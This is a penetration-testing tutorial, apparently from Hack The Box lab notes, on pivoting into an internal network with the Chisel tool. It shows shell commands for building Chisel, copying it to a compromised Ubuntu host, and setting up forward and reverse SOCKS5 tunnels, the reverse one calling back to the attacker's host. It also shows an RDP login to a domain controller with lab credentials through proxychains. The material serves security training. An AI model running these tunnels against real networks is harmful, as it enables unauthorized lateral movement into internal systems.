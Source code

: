 # SOCKS5 Tunneling with Chisel

***

[Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH. `Chisel` can create a client-server tunnel connection in a firewall restricted environment. Let us consider a scenario where we have to tunnel our traffic to a webserver on the `172.16.5.0`/`23` network (internal network). We have the Domain Controller with the address `172.16.5.19`. This is not directly accessible to our attack host since our attack host and the domain controller belong to different network segments. However, since we have compromised the Ubuntu server, we can start a Chisel server on it that will listen on a specific port and forward our traffic to the internal network through the established tunnel.

***

### <mark style="color:red;">Setting Up & Using Chisel</mark>

Before we can use Chisel, we need to have it on our attack host. If we do not have Chisel on our attack host, we can clone the project repo using the command directly below:

<mark style="color:green;">**Cloning Chisel**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ git clone https://github.com/jpillora/chisel.git
```

We will need the programming language `Go` installed on our system to build the Chisel binary. With Go installed on the system, we can move into that directory and use `go build` to build the Chisel binary.

<mark style="color:green;">**Building the Chisel Binary**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ cd chisel
go build
```

{% hint style="warning" %}
It can be helpful to be mindful of the size of the files we transfer onto targets on our client's networks, not just for performance reasons but also considering detection. Two beneficial resources to complement this particular concept are Oxdf's blog post "[Tunneling with Chisel and SSF](https://0xdf.gitlab.io/cheatsheets/chisel)" and IppSec's walkthrough of the box `Reddish`. IppSec starts his explanation of Chisel, building the binary and shrinking the size of the binary at the 24:29 mark of his [video](https://www.youtube.com/watch?v=Yp4oxoQIBAM\&t=1469s).
{% endhint %}

Once the binary is built, we can use `SCP` to transfer it to the target pivot host.

<mark style="color:green;">**Transferring Chisel Binary to Pivot Host**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
                                      100%   11MB   1.2MB/s   00:09    
```

Then we can start the Chisel server/listener.

<mark style="color:green;">**Running the Chisel Server on the Pivot Host**</mark>

```shell-session
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
```

The Chisel listener will listen for incoming connections on port `1234` using SOCKS5 (`--socks5`) and forward it to all the networks that are accessible from the pivot host. In our case, the pivot host has an interface on the 172.16.5.0/23 network, which will allow us to reach hosts on that network.

We can start a client on our attack host and connect to the Chisel server.

<mark style="color:green;">**Connecting to the Chisel Server**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks
```

As you can see in the above output, the Chisel client has created a TCP/UDP tunnel via HTTP secured using SSH between the Chisel server and the client and has started listening on port 1080. Now we can modify our proxychains.conf file located at `/etc/proxychains.conf` and add `1080` port at the end so we can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel.

<mark style="color:green;">**Editing & Confirming proxychains.conf**</mark>

We can use any text editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

```shell-session
mrroboteLiot@htb[/htb]$ tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

<mark style="color:green;">**Pivoting to the DC**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

***

### <mark style="color:red;">Chisel Reverse Pivot</mark>

In the previous example, we used the compromised machine (Ubuntu) as our Chisel server, listing on port 1234. Still, there may be scenarios where firewall rules restrict inbound connections to our compromised target. In such cases, we can use Chisel with the reverse option.

When the Chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote reversed. The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying `R:socks` will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.

We'll start the server in our attack host with the option `--reverse`.

<mark style="color:green;">**Starting the Chisel Server on our Attack Host**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5
```

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

<mark style="color:green;">**Connecting the Chisel Client to our Attack Host**</mark>

```shell-session
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks
```

We can use any editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

<mark style="color:green;">**Editing & Confirming proxychains.conf**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

If we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

```shell-session
mrroboteLiot@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
